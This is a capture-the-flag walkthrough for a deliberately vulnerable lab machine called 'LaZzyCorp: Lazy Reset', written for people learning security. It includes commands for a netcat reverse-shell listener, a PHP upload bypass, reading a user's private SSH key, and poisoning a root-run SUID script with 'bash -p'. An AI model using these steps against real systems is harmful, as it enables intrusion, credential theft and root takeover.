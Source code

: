 # LaZzyCorp: Lazy Reset

---

*By ItsMhaa*

> Welcome to DevCorp — where mistakes are meant to be reset.
> 

In this **easy-to-medium** difficulty CTF, you step into the shoes of a security researcher investigating a **careless developer’s internal staging machine**.

What starts with anonymous FTP access slowly unravels into a multi-step chain of **steganography**, **web exploitation**, **SSH hijacking**, and a **SUID binary that resets more than just the website** 😏

---

## 🔎 Box Information

```
Name: LaZzyCorp: Lazy Reset
Difficulty: Easy-Medium
Creator: ItsMhaa
OS: Ubuntu 20.04
IP: [Dynamic/Static – e.g., 192.168.1.150]
```

---

## 📖 Story

DevCorp is a startup working on a blog platform. Their junior dev, Arvind, has been testing things on a local server — but in classic lazy fashion, he’s left behind:

- Sensitive developer notes
- A hidden image in FTP
- His personal SSH key
- And worst of all… a **reset tool that runs as root** 🧨

Your goal?

**Pivot from anonymous FTP to full root** by chaining together misconfigs, forgotten files, and one poorly secured script.

---

## 🧠 Summary

A misconfigured FTP server and a lazy reset tool set the stage for your exploitation path.

Expect a mix of:

- Steganography
- Upload bypasses
- Permission abuse
- A clean privilege escalation path
- Minimal guesswork, maximum fun!

---

## Step 1 – Recon Phase

- Run `nmap` → open ports: **21 (FTP), 80 (HTTP), 22 (SSH)**
- Try anonymous FTP → **Success**
- Inside `/pub/`, you find:
    
    ✅ `note.jpg`
    
    (Note:- Make sure while downloading file you use binary mode of FTP. )
    

---

## Step 2 – Steganography & Foothold

- Extract hidden data using:
    
    ```bash
    steghide extract -sf note.jpg
    ```
    
- Hidden creds discovered inside:
    
    ```
    Username: dev
    Password: ****
    
    ```
    
- Visit the site → `/login`
- Upload `shell.php` using extension bypass: `.php.upload`
- Start listener:
    
    ```bash
    nc -lvnp 4444
    
    ```
    
- Trigger uploaded shell → gain **reverse shell as www-data**

---

## Step 3 – User Escalation (SSH as Arvind)

- While in shell:
    
    ```bash
    cat /home/arvind/.ssh/id_rsa
    
    ```
    
- File is world-readable
- Copy it to your attacker box → Save as `id_rsa` → `chmod 600 id_rsa`
- SSH into:
    
    ```bash
    ssh -i id_rsa arvind@<target-ip>
    
    ```
    

---

## Step 4 – Privilege Escalation (SUID Reset)

- List SUID binaries:
    
    ```bash
    find / -perm -4000 2>/dev/null
    
    ```
    
- You find:
    
    ```bash
    /home/arvind/reset
    
    ```
    
- It runs:
    
    ```bash
    /usr/bin/reset_site.sh
    
    ```
    
- And that file is **writable by *arvind***
- Modify it:
    
    ```bash
    echo 'bash -p' > /usr/bin/reset_site.sh
    chmod +x /usr/bin/reset_site.sh
    
    ```
    
- Now run:
    
    ```bash
    /home/arvind/reset
    
    ```
    
- BOOM → Root shell 🎯

---

## Step 5 – Flags

```
/home/arvind/user.txt   →  FLAG{****}

/root/root.txt          →  FLAG{*****}

```

---

## 🧠 What You Learned

✅ Steganography + FTP

✅ Web login & PHP upload bypass

✅ Reading SSH keys from web shells

✅ SSH pivoting

✅ SUID + script poisoning for root access

---

## 💬 Final Thoughts

This box was made for:

- Beginners learning post-exploitation
- People wanting story-based lateral movement
- CTF lovers who enjoy clean logic over rabbit holes

Made with ❤️ by ItsMhaa

LinkedIn: [www.linkedin.com/in/mohammad-husain-ajani](http://www.linkedin.com/in/mohammad-husain-ajani) 

GitHub: https://github.com/mohammadajani/mohammadajani

Notion Walkthrough: [LaZzyCorp: Lazy Reset](https://www.notion.so/LaZzyCorp-Lazy-Reset-232f6840ffbe80fca6c8c92bec2b02b7?pvs=21) 

---
